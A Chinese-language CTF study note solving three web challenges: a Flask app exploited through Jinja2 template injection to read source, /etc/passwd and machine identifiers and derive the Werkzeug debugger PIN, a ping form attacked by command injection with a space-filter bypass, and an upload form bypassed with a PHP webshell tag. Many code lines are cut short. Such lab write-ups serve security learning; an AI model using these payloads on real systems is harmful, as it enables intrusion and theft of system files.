




前言
8月19日笔记
python - pin
#计算ping值的脚本
1 | import hashlib |
示例程序
1 | # -*- coding: utf-8 -*- |
Hash碰撞
1 | git clone https://github.com/bwall/HashPump |
作业
作业一 [GYCTF2020]FlaskApp
payload
读源码
1 | {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}{% endif %}{% endfor %} |
读目录
1 | {{''.__class__.__bases__[0].__subclasses__()[75].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}} |
读文件
1 | {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}{% endif %}{% endfor %} |
payload2
读取用户
1 | {{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}} |
读mac地址
1 | {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/sys/class/net/eth0/address','r').read() }}{% endif %}{% endfor %} |
读machine-id地址，
docker 的位置：/proc/self/cgroup
linux的id一般存放在/etc/machine-id或/proc/sys/kernel/random/boot_i。
1 | {% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('/proc/self/cgroup','r').read() }}{% endif %}{% endfor %} |
拿到信息后。算出pin值
然后就可以执行任意目录
1 | __import__('o'+'s').listdir('/') |
读取flag
1 | __import__('o'+'s').popen('cat /this_is_the_fl'+'ag.txt').read() |
拿到flag
flag{a6aa7ee6-5870-4e01-9f27-1bd6a42f0411}
作业二 9016
开始是这么一个页面
测试输入127.0.0.1发现有执行了ping。
添加测试
127.0.0.1|ls
成功返回。但是使用空格后报错。证明过滤了空格。
payload
1 | ip=127.0.0.1|cat${IFS}flag.php&submit=bash |
flag
$flag=”flag{8b8ff0b45a490c3e93c89a03468ee2c2}
作业三 uplad

文件上传程序。

上传了一个马，好像被过滤了
<?php
试试绕过。
1 | <script language="Php"> |
flag

拿到flag{3d73d4bb-fe0a-4f37-9517-d345379c8247}